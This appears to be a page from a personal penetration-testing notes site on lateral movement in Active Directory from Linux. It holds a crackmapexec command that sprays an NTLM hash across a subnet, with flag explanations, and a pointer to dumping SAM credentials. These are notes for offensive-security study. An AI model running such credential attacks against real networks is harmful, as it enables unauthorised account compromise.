

repository: amandaguglieri/hackinglife · page: active-directory-from-linux-lateral-movement/index.html · generator: mkdocs

---
title: Lateral Movement in Active Directory from Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - ldap
  - linux
---
# Lateral Movement in Active Directory from Linux

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerate with ldap](ldap.md)
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)

!!! tip "Linux in AD"
	- [Linux in active directory](linux-in-active-directory.md)



##  Spraying password technique in the domain with crackmapexec

```
# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash
```

**This technique, while effective, is quite noisy and is not a good choice for any assessments that require stealth.** 

## Attacking SAM 

If we have a foothold in the target machine, we can retrieve other credentials existing in the host memory:

[See Attacking sam](attacking-sam.md)
